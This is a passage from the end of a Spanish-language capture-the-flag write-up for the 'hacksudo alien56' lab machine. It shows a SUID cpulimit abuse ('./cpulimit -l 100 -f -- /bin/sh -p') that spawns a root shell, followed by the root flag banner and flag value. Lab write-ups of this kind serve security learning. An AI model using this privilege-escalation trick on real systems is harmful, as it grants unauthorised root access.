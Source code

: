 ```shell
./cpulimit -l 100 -f -- /bin/sh -p
```

Una vez hecho esto ya seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
 _   _            _                  _       
| | | | __ _  ___| | _____ _   _  __| | ___  
| |_| |/ _` |/ __| |/ / __| | | |/ _` |/ _ \ 
|  _  | (_| | (__|   <\__ \ |_| | (_| | (_) |
|_| |_|\__,_|\___|_|\_\___/\__,_|\__,_|\___/ 
                                             
    _    _ _            ____   __   
   / \  | (_) ___ _ __ | ___| / /_  
  / _ \ | | |/ _ \ '_ \|___ \| '_ \ 
 / ___ \| | |  __/ | | |___) | (_) |
/_/   \_\_|_|\___|_| |_|____/ \___/ 

congratulations you rooted hacksudo alien56...!!!
flag={d045e6f9feb79e94442213f9d008ac48}
```

